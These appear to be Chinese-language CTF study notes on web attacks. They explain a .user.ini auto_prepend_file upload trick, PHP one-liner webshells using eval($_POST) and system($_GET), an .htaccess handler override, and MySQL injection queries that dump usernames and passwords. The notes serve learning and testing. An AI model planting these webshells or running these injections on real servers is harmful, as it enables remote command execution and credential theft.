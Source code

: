 (PHP>=5.3)利用.user.ini的前提是服务器开启了CGI或者FastCGI，并且上传文件的存储路径下有 `?.php` 可执行文件。所以本题我们要想上传并且执行，首先上传.user.ini文件，然后上传一个图片。
   
    来源:[csdn](https://blog.csdn.net/yuanxu8877/article/details/128071631)

    原理是.user.ini中会指定在同目录上传的其他 php 文件末尾都会 include 其中配置的指定文件, 比如这里就可以是 shell.jpg , (可能 .user.ini 本身设计的初衷是一个无管理员的为共享主机环境下的用户自定义需求)利用这个方式完成webshell (php解析)的上传. 

    .user.ini 一共 include 两个选项: auto_prepend_file和auto_append_file, 一个在前面一个在后面:

```php
auto_prepend_file=shell.jpg
```

    这个利用本质上是一个借刀杀人的过程, 只要服务器在该路径尝试加载并解析任何php源文件, 就会连同上传的 webshell 一起触发

#### 变种的一句话木马

首先可做php解析的文件后缀: php3, php5, php7, pht,phtml 等

以及这种表达方式: 

```html
<script language="php">
    <?=@eval($_POST['shell']);?>
</script>
```

绕过 `<?`:
```html
<script language="php">
    system($_GET['cmd']); // 执行系统命令
</script>
```

#### .htaccess解析漏洞

我们先创建一个文件，文件名为.htaccess，内容为

```php
<FilesMatch "abc" >
SetHandler application/x-httpd-php
</FilesMatch>
```

代码的意思就是，将当前目录下文件名为abc的文件当成php来解析

## sqli

### 标准的mysql注入姿势

```sql
-- 先查库名
SELECT DATABASE()

--表名
SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE table_schema='mydb'

--列名
SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name='users'
-- 如果不止一个库里有 users 表，可能需要加上 AND table_schema='mydb'

--具体数据项
SELECT GROUP_CONCAT(username, ':', password) FROM users
```
